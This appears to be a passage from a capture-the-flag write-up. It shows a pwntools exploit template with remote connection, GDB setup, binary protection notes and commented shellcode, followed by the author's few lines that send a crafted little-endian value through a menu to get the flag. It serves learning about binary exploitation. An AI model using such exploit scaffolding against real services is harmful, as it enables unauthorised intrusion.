 ```python
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```


I add the folling lines to send the bytes and retrieve the flag : 

```Python
payload = (13371337).to_bytes(8,'little')

io.sendlineafter(b'>> ', b'T')
io.sendlineafter(b'>> ', b'S')
io.sendlineafter(b'>> ', payload)
io.sendlineafter(b'>> ', b'C')
```

